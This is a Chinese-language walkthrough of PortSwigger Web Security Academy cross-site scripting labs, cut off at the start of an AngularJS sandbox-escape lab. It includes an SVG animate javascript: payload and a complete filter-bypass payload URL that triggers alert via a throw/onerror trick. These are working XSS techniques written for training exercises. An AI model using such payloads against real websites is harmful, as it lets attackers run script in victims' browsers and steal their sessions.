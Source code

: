 ```
<svg><a><animate attributeName=href values="javascript:alert(1)" dur=1s repeatCount=2 /><text x=20 y=20>Click Me</text></a>
```

---

以下題目有點無聊 QQ，還沒有認真研究

## [Lab: Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)
### 題目敘述
 This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks.

To solve the lab, perform a cross-site scripting attack that calls the alert function with the string 1337 contained somewhere in the alert message. 

### 題目解釋
N/A

### 解答
可以看出攻擊點是

如果輸入 `https://acbb1f201ee33a64c059d28b009e00c9.web-security-academy.net/post?postId=5&123`

```
 <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26123'}).finally(_ => window.location = '/')">Back to Blog</a>
```

最終 Payload:

```
https://acbb1f201ee33a64c059d28b009e00c9.web-security-academy.net/post?postId=5&'},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b'',{x:'
```
## [Lab: Reflected XSS with AngularJS sandbox escape without strings](https://portswigger.net/web-security/cross-site-scripting/contexts/angularjs-sandbox/lab-angular-sandbox-escape-without-strings)

### 題目敘述
 This lab uses AngularJS in an unusual way where the $eval function is not available and you will be unable to use any strings in AngularJS.

To solve the lab, perform a cross-site scripting attack that escapes the sandbox and executes the alert function without using the $eval function. 
### 題目解釋
